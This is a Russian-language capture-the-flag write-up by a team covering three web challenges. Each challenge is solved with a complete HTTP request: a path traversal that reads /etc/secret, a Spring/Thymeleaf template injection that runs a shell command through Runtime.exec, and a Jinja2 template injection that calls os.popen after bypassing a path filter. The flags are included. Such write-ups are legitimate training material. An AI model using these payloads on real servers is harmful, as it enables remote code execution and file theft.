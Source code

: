 # Отчёт команды "The Vermillion Team" (No. 26)
## CTF 

### Web-10

В этом задании представлена обычная уязвимость **Path Traversal**. На бэкенде можно подгружать любые файлы.
```
GET /download?file_type=..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fsecret HTTP/1.1
Host: 192.168.12.10:5001
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Referer: http://192.168.12.10:5001/
Upgrade-Insecure-Requests: 1
```

Флаг: `nto{P6t9_T77v6RsA1}`


### Web-20

В этом задании пейлоад работает через Spring View Manipulation + SSTI под thymeleaf. Соответственно:
```
GET /doc/__%24%7Bnew%20java.util.Scanner%28T%28java.lang.Runtime%29.getRuntime%28%29.exec%28%22cat%20password.txt%22%29.getInputStream%28%29%29.next%28%29%7D__%3A%3A.x. HTTP/1.1
Host: 192.168.12.13:8090
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Upgrade-Insecure-Requests: 1
```

Отсюда получаем наш пароль и следующим запросом получаем флаг.
```
GET /login?password=33a61c66899af2114c8f98d80ceb2857 HTTP/1.1
Host: 192.168.12.13:8090
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Upgrade-Insecure-Requests: 1
```

Флаг: `nto{abobovichasdfas}`

### Web-30

В этом задании есть фильтр, отсеивающий запросы, начинающиеся с `/flag`. Через // обходим данную проверку. Дальше код в любом случае выполнит наш код независимо от того, содержатся в нем запрещенные символы или нет.
```
GET //flag?name={%7b+self.__init__.__globals__.__builtins__.__import__('os').popen('cat+flag.txt').read()+}} HTTP/1.1
Host: 192.168.12.11:8001
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Upgrade-Insecure-Requests: 1
```

Флаг: `nto{Ht1P_sM088Lin6_88Ti}`
